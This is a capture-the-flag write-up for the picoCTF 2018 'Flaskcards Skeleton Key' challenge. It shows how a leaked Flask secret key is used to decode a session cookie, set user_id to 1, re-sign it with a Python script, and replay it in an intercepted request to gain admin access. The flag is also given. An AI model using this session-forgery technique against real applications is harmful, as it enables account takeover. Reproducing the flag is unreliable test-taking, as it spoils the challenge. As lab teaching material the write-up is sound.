 # Flaskcards Skeleton Key - 600 points

Nice! You found out they were sending the `Secret_key: a155eb4e1743baef085ff6ecfed943f2`. Now, can you find a way to log in as admin? [link](http://2018shell1.picoctf.com:53588).

Hint: What can you do with a flask Secret_Key?

### Solution
###### Writeup by asinggih

This particular challenge seems to be a continuation of the previous [Flaskcards](./flaskcards) challenge. Now that we have the Flask's `Secret_key`, what can we do with it? There is an admin tab after we're logged in as a general user. However, it says that we're not an admin and there's nothing to see there.

<p align="center">
	<img src="../screenshots/fcs_1.png">
</p>

In order to login as an admin, first, I created a new flash card, while intercepting the request by using burpsuite.

<p align="center">
	<img src="../screenshots/fcs_0.png">
</p>


```sh
POST /create_card HTTP/1.1
Host: 2018shell1.picoctf.com:53588
Content-Length: 152
Cache-Control: max-age=0
Origin: http://2018shell1.picoctf.com:53588
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://2018shell1.picoctf.com:53588/create_card
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=.eJwlj0uOAjEMBe-SNQvbcZyEy7Tin0BIIHXDajR3pyV2b1Olen9lyz2OW7m-909cynb3ci29V-hNx5yESu4GlGKh07uiZOTEBu1cvJIAMaiqoTVUHqqyMgVNOhuxNPGFVJlzKDBXnUJhrXcwPLVrSOvTAB3noKBgl1UuxY49t_frEc-zZwYjuocCgDdvwRpBTpzOLFqTiIlknNzniP13gqD8fwGlST6Z.DtjnWg.Sk7WxgzkWREY4N5ZLkHacHt47VU
Connection: close

csrf_token=IjllNDExZGRlYjAwMGQ1ZDVlNGJlZTJkMjRmZDQ0NmIzZjIyNDIyNjgi.DtjnXg.0UCAew6DkHVlw9J_WLIq-_QuwVg&question=How+are+you%3F&answer=good&submit=Create
```

We can see inside the intercepted http request that we have been assigned a session cookie by the server, and it's always interesting to see what's inside a session cookie. I tried to decode the session cookie using a base64 decoder, but it gave me a gibberish text. So i googled on how to decode a flask session, and do a bit of readings on Flask's method in creating the session cookies, I came across this [gist](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe), which helped me to decode the particular user's session cookie. I only did some modifications to fit my python environment and the challenge.

```python
#!/usr/bin/env python3
#
# Snippet was originally written by github.com/aescalana
# https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe
# 
# Some modifications were added to fit my python environment and the particular challenge
#	

import hashlib
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
	# Override method
	# Take secret_key instead of an instance of a Flask app
	def get_signing_serializer(self, secret_key):
		if not secret_key:
			return None
		signer_kwargs = dict(
			key_derivation='hmac',
			digest_method = hashlib.sha1
		)
		return URLSafeTimedSerializer(secret_key, salt='cookie-session',
		                              serializer=self.serializer,
		                              signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.loads(cookieValue)

# Keep in mind that flask uses unicode strings for the
# dictionary keys
def encodeFlaskCookie(secret_key, cookieDict):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
	sk = 'a155eb4e1743baef085ff6ecfed943f2'
	cookie = ".eJwlj0uOAjEMBe-SNQvbcZyEy7Tin0BIIHXDajR3pyV2b1Olen9lyz2OW7m-909cynb3ci29V-hNx5yESu4GlGKh07uiZOTEBu1cvJIAMaiqoTVUHqqyMgVNOhuxNPGFVJlzKDBXnUJhrXcwPLVrSOvTAB3noKBgl1UuxY49t_frEc-zZwYjuocCg"
	decodedDict = decodeFlaskCookie(sk, cookie)
	print(decodedDict)

	# cookie = encodeFlaskCookie(sk, sessionDict)
	
```

The code above spits out the decoded session cookie!

```
{
	'_fresh': True, 
	'_id': '773075b89921b2ddc02f6ceb9d7b16fef9150516f4af2011e23bc1c51b48bb6aff61c674c24656da12344f8b0443b962ec5770c102fa86579c01d1982e2e4d6a',
	'csrf_token': '9e411ddeb000d5d5e4bee2d24fd446b3f2242268', 
	'user_id': '20'
}
```

Looking at the decoded session, it can be seen that the `'user_id'` key seems to be quite important. According to this number, it is possible that the app generates the `user_id` sequentially. Moreover, it is also quite logical to think that an admin user / superuser should have a lower `user_id` number than my current user, since it should've been the first user to be created when creating this app. Therefore, I tried to modified the `user_id` into `0`, encoded back to its encoded form, and used it as the new session. Didn't work. Hence, i tried `1` as the `user_id`.

```python
# a continuation from the previous python code
	...
	return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
	sk = 'a155eb4e1743baef085ff6ecfed943f2'
	...
	...
	modified_session = {
		'_fresh': True, 
		'_id': '773075b89921b2ddc02f6ceb9d7b16fef9150516f4af2011e23bc1c51b48bb6aff61c674c24656da12344f8b0443b962ec5770c102fa86579c01d1982e2e4d6a',
		'csrf_token': '9e411ddeb000d5d5e4bee2d24fd446b3f2242268', 
		'user_id': '1'
	}

	sessionDict = encodeFlaskCookie(sk, modified_session)
	print(sessionDict)

```

The print out of `sessionDict` can then be injected to the server by modifying the `session=.....` part of the previously intercepted http request when creating the flashcard.

```txt

POST /create_card HTTP/1.1
Host: 2018shell1.picoctf.com:53588
Content-Length: 152
Cache-Control: max-age=0
Origin: http://2018shell1.picoctf.com:53588
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://2018shell1.picoctf.com:53588/create_card
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=.eJwlj0uOAjEMBe-SNQvbcZyEy7Tin0BIIHXDajR3pyV2b1Olen9lyz2OW7m-909cynb3ci29V-hNx5yESu4GlGKh07uiZOTEBu1cvJIAMaiqoTVUHqqyMgVNOhuxNPGFVJlzKDBXnUJhrXcwPLVrSOvTAB3noKBgl1UuxY49t_frEc-zZwYjuocCgDdvwRpBTpzOLFqTiIlknNzniP13Asv_F2bsPmg.Dtj9xw.5K02CDzdrQET95f_qpME7gh9mS8
Connection: close

csrf_token=IjllNDExZGRlYjAwMGQ1ZDVlNGJlZTJkMjRmZDQ0NmIzZjIyNDIyNjgi.DtjnXg.0UCAew6DkHVlw9J_WLIq-_QuwVg&question=How+are+you%3F&answer=good&submit=Create

```

After forwarding the request, and created the card, I tried to visit the admin page again, and voila!

<p align="center">
	<img src="../screenshots/fcs_2.png">
</p>


## Flag
>Your flag is: picoCTF{1_id_to_rule_them_all_8f9d57f1}

